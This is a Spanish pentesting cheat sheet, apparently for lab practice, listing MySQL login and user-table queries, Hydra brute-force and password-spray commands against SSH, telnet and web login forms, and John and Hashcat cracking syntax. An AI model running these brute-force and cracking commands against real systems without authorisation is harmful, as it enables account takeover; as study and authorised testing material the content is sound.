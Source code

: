 ## **Comandos básicos para MySQL**

```Bash
mysql --user=root --port=13306 -p -h "ip"
mysql -u <user> -p
```

- -p: Este argumento indica la solicitud de una contraseña al iniciar sesión.
- -h: Este argumento indica el host al que se quiere conectar.

```Mysql
> SHOW databases;
> SHOW tables FROM "nombre de la bbdd";
> USE "nombre de la bbdd";
> SELECT * FROM table;
> SELECT * FROM mysql.user WHERE User = 'dev' \G #Listar datos de forma vertical
```

# Fuerza bruta con Hydra

Es posible que en algún momento necesites hacer un ataque de fuerza bruta a un servicio, como ssh, FTP, etc.

```Bash
hydra -L usuarios.txt -P contraseña.txt "ip" ssh -s 22
hydra -L usuarios.txt -P contraseña.txt telnet://"ip"
hydra -L usernames.txt -P rockyou.txt <IP> -s <port> -f http-post-form "/administrator:username=^USER^&password=^PASS^:Invalid username or password"
hydra -L users.txt -p 'Th1s_1s_4_v3ry_s3cur3_p4ssw0rd' ssh://10.10.162.52 #Password spray
hydra -L usuarios.txt -P rockyou.txt 10.10.242.126 http-post-form "/login:username=^USER^&password=^PASS^:The user '^USER^' does not exist"
#Utiliza el mismo ususario en la parte del error
hydra -L usuarios.txt -P rockyou.txt 10.10.242.126 http-post-form "/login:username=^USER^&password=^PASS^:The user '.*' does not exist"
#Utiliza cualquier valor
```

- -L: Indica el archivo donde se encuentran los posibles usuarios.
- -P: Indica el archivo donde se encuentran las posibles contraseñas.
- -s: Indica el puerto destino, en este caso al ser ssh, el puerto 22.

# Cracking y Hasehes
## **Password Cracking con John**
```Bash
john --format=[tipo_de_hash] [hash_file] --wordlist=[wordlist]
```

```Bash
john --wordlist /usr/share/rockyou.txt "hash.txt"
```

## **Password Cracking con Hascat**
```Bash
hashcat -m [tipo_de_hash] -a 0 [hash_file] [wordlist]
```
